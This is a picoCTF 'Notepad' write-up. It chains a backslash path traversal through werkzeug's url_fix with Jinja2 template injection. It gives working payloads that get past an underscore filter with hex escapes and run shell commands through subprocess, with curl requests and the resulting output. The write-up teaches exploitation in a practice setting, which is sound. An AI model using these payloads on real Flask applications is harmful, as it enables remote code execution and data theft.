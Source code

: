 ﻿# Notepad - PicoCTF

## app.py 

 ```python
 @app.route('/user/<name>')
def greet_user(name):
    return render_template('greet.html', name=name)
```

https://notepad.mars.picoctf.net/ render **index.html** with context variable "error" .

```python
@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```
https://notepad.mars.picoctf.net/new for uploading notes. Variable **content** is taken from the HTML form, filtered with '_' and '/' and if occur, redirect to error html. If not, store new file html note in folder static with file name is `static/{url_fix(content[:128])}-{token_urlsafe(8)}.html`

### url_fix()
Its deprecated in the werkberg library ([here](https://tedboy.github.io/flask/generated/werkzeug.url_fix.html)). Source:
```python
def url_fix(s, charset='utf-8'):
    r"""Sometimes you get an URL by a user that just isn't a real URL because
 it contains unsafe characters like ' ' and so on. This function can fix
 some of the problems in a similar way browsers handle data entered by the
 user:

 >>> url_fix(u'http://de.wikipedia.org/wiki/Elf (Begriffskl\xe4rung)')
 'http://de.wikipedia.org/wiki/Elf%20(Begriffskl%C3%A4rung)'

 :param s: the string with the URL to fix.
 :param charset: The target charset for the URL if the url was given as
 unicode string.
 """
    # First step is to switch to unicode processing and to convert
    # backslashes (which are invalid in URLs anyways) to slashes.  This is
    # consistent with what Chrome does.
    s = to_unicode(s, charset, 'replace').replace('\\', '/')

    # For the specific case that we look like a malformed windows URL
    # we want to fix this up manually:
    if s.startswith('file://') and s[7:8].isalpha() and s[8:10] in (':/', '|/'):
        s = 'file:///' + s[7:]

    url = url_parse(s)
    path = url_quote(url.path, charset, safe='/%+$!*\'(),')
    qs = url_quote_plus(url.query, charset, safe=':&%=+$!*\'(),')
    anchor = url_quote_plus(url.fragment, charset, safe=':&%=+$!*\'(),')
    return to_native(url_unparse((url.scheme, url.encode_netloc(),
                                  path, qs, anchor)))
   ```

Notice that we have
 ```python
s = to_unicode(s, charset, 'replace').replace('\\', '/')
```
which is crucial for bypass "/" filter.

## index.html
```html
    <!doctype  html>
    {% if error is not none %}
		    <h3>
		    error: {{ error }}
		    </h3>
		    {% include "errors/" + error + ".html" ignore missing %}
    {% endif %}
    <h2>make a new note</h2>
    <form  action="/new"  method="POST">
    <textarea  name="content"></textarea>
    <input  type="submit">
    </form> 
 ```

Here, flask used Jinja2 (can SSTI). The **sink** could be the jinja template. Since https://notepad.mars.picoctf.net/?error=7*7 not works, cause the server treats the error string, so the Jinja template could not evaluate it.

=> **Sink**: {% include "errors/" + error + ".html" ignore missing %}

To do that, we have:
```python
name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```
From there, we can perform directory traversal to folder **errors**, then by

     {% include "errors/" + error + ".html" ignore missing %}
we evaluate SSTI payload.

## Exploit
With use of url_fix(). We note:

    make a new note
    
    ..\templates\errors\123abc

=> Redirect to: https://notepad.mars.picoctf.net/templates/errors/123abc%0D%0A-4vnyXEK_tLc.html. Then we access it. 
=> https://notepad.mars.picoctf.net/?error=123abc%0D%0A-4vnyXEK_tLc

    error: 123abc -4vnyXEK_tLc
    
     make a new note

Do the same with simple payload {{7*7}}
=>

    error: 123abc {{7*7}}-mAQRWwnJPVg
    
    make a new note

Since it in the name of file, we cant evaluate it, to do this: from **app.py**:
```python
 name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
 ```
After processing with `url_fix()`, the `{{7*7}}` expression contained special character `{` and `}`. So if its exist in the URL, we just pass the value of variable `error`, not the file that we made.

So what we need is make the content longer, then the payload is outbound of 128 characters =>
URL path is valid for access => SSTI!

**Payload:**

    ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{7*7}}
 ```bash   

    $ curl https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-nmraL3m59zo
    <!doctype html>
    
      <h3>
        error: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-nmraL3m59zo
      </h3>
      ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa49
    
    <h2>make a new note</h2>
    <form action="/new" method="POST">
      <textarea name="content"></textarea>
      <input type="submit">
    </form>
```

Then we got this "49".
After a long while to craft my payload with [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), here is my payload for by pass the `_`
 
 **Payload:**
``` 
{{request['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][11]['\x5f\x5fsubclasses\x5f\x5f']()[273]("ls", shell=True, stdout=-1).communicate()[0].strip()}}
```

```bash
$ curl https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-wVxNUWfAtG4
<!doctype html>

  <h3>
    error: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-wVxNUWfAtG4
  </h3>
  ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab&#39;app.py\nflag-c8f5526c-4122-4578-96de-d7dd27193798.txt\nstatic\ntemplates&#39;

<h2>make a new note</h2>
<form action="/new" method="POST">
  <textarea name="content"></textarea>
  <input type="submit">
</form>
```
Do the last round for the flag:
``` 
{{request['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][11]['\x5f\x5fsubclasses\x5f\x5f']()[273]("cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt", shell=True, stdout=-1).communicate()[0].strip()}}
```

> picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}


